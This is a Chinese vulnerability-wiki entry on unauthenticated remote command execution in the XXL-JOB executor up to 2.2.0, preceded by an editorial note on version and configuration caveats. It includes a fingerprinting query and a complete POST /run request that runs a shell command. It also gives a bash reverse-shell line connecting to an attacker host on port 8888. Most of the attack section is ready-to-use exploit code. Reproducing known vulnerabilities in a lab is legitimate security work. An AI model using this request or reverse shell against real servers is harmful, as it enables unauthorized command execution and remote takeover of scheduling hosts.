




## 核对与使用边界

- 执行器边界：无 token 或空 token 的特定配置与管理端弱口令是两种情况；2.2.0 之前的 Hessian 通道不能套用后续 REST /run 请求。touch、回连及任务触发会产生进程/文件/调度状态，应按对应版本协议与原始对象核对残留。

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.2.0；明确2.2.0为REST，旧版需Hessian；token未配置

代码与实验材料：完整/run、touch及回连变体，旧版仅工具链接

来源证据范围：LandGrey、原公众号、OneSourceCat仓库

- **事实待核（1）**：version元数据抽成启动命令；依据：docker-compose up -d不是版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：“默认无认证”需保留配置限定；依据：已设置accessToken实例不受同一无token请求影响，不能只看版本。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（3）**：作用和判定须分开；依据：code200/任务受理≠命令完成，文中另有文件证据应保留；jobId1/COVER_EARLY和回连影响现有任务。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XXL-JOB executor 未授权访问漏洞

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

由于 executor 默认没有配置认证，未授权的攻击者可以通过 RESTful API 执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 披露时间

```
2020-10-27
```

## 漏洞影响

```
XXL-JOB <= 2.2.0
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

Vulhub 执行如下命令启动 2.2.0 版本的 XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。客户端（executor）默认返回如下报错信息：

```
{"code":500,"msg":"invalid request, HttpMethod not support."}
```




## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```


`touch /tmp/awesome_poc` 已成功执行：




执行反弹 shell 命令：

```
"glueSource": "bash -i >& /dev/tcp/your-ip/8888 0>&1 "
```




监听 8888 端口，接收反弹 shell：




低于 2.2.0 版本的 XXL-JOB 没有 RESTful API，我们可以通过 [Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE) 来执行命令。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
